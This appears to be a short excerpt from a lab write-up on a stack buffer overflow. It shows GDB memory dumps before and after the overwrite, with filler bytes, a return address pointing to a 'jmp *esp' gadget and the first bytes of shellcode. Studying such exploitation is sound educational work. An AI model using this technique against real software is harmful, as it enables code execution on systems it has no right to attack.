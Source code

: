 #### GDB Exploit

64 bytes above buf before attack:

```
0xbfcd9af0:     0x00000010      0xdd910002      0x0100007f      0x00000000
0xbfcd9b00:     0x00000000      0x10a40002      0x00000000      0x00000000
0xbfcd9b10:     0x00000000      0x00000001      0x00000004      0x00000003
0xbfcd9b20:     0x00000000      0x00000000      0x00000000      0xbfcd9b50
```

64 bytes above buf after attack:

```
0xbf8ebde0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbf8ebdf0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbf8ebe00:     0x11111111      0x11111111      0x11111111      0x08048666
0xbf8ebe10:     0xffffffe8      0x8d5dc3ff      0xc0314a6d      0x5b016a99
```

The pointer to jmp \*esp is at `0xbf8ebe0c`. Everything after is the shellcode. 







